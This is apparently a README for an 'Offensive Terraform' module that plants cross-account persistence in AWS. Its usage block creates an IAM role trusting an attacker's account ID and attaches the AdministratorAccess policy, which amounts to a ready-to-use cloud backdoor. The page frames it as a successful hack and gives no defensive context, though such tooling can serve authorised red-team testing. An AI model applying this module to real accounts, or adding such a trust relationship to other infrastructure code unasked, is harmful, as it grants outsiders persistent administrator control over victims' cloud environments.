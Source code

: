 # AWS Cross Account Persistence

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which creates an IAM role with trust relationship with attacker's AWS account and attaches managed IAM Policy to an IAM role.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-cross-account-persistence/master/diagram.jpg)

## Usage
```
module "cross-account-persistence" {
  source  = "offensive-terraform/cross-account-persistence/aws"

  role_name           = "hack-the-planet"
  policy_arn          = "arn:aws:iam::aws:policy/AdministratorAccess"
  attacker_account_id = "000000000000"
}

output "role_arn" {
  value = module.cross-account-persistence.role_arn
}
```
## Author
Module managed by https://github.com/iganbold
